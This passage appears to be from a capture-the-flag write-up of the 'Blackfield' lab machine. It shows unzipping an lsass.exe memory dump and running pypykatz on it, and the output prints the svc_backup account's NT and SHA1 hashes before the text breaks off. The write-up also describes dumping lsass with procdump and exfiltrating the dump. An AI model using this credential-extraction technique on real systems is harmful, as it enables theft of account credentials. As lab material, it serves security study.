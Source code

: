                     7846143 blocks of size 4096. 3490514 blocks available



It's a series of Zip archives, and inside each is a memory dump file.

### Extract Hashes

Immediately I'm drawn to `lsass.zip`.
[Mimikatz](https://github.com/gentilkiwi/mimikatz) first came to
promenance because it would dump plaintext credentials and hashes from
`lsass.exe` As anti-virus started catching on to that, attackers
pivoted. A [well known
technique](https://attack.mitre.org/techniques/T1003/) is to use
`procdump.exe` from
[Sysinternals](https://docs.microsoft.com/en-us/sysinternals/) (and
signed by Microsoft) to dump `lsass.exe` and then exfil that memory dump
and extract hashes from it in the attacker controlled space.

I'll unzip `lsass.zip` and it gives a 137MB Mini Dump, which is the
memory from the process at the time of capture:



    root@kali# unzip lsass.zip 
    Archive:  lsass.zip
      inflating: lsass.DMP               
    root@kali# file lsass.DMP 
    lsass.DMP: Mini DuMP crash report, 16 streams, Sun Feb 23 18:02:01 2020, 0x421826 type
    root@kali# ls -lh lsass.DMP 
    -rwxrwx--- 1 root vboxsf 137M Feb 23 11:02 lsass.DMP



I could move this over to a Windows VM, but there's a Mimikatz
alternative, [pypykatz](https://github.com/skelsec/pypykatz) which will
work just fine. I'll install it with `pip3 install pypykatz`. [This
blog](https://en.hackndo.com/remote-lsass-dump-passwords/#linux--windows)
has a good section on dumping with `pypykatz` from Linux. It dumps a
bunch of information:



    root@kali# pypykatz lsa minidump lsass.DMP
    INFO:root:Parsing file lsass.DMP                          
    FILE: ======== lsass.DMP =======                          
    == LogonSession ==
    authentication_id 406458 (633ba)                    
    session_id 2
    username svc_backup                        
    domainname BLACKFIELD                               
    logon_server DC01
    logon_time 2020-02-23T18:00:03.423728+00:00
    sid S-1-5-21-4194615774-2175524697-3563712290-1413  
    luid 406458
            == MSV ==                          
                    Username: svc_backup                      
                    Domain: BLACKFIELD   
                    LM: NA                              
                    NT: 9658d1d1dcd9250115e2205d9f48400d
                    SHA1: 463c13a9a31fc3252c68ba0a44f0221626a33e5c
            == WDIGEST [633ba]==                              
                    username svc_backup
                    domainname BLACKFIELD
                    password None                             
            == SSP [633ba]==             
                    username                   
                    domainname
                    password None
            == Kerberos ==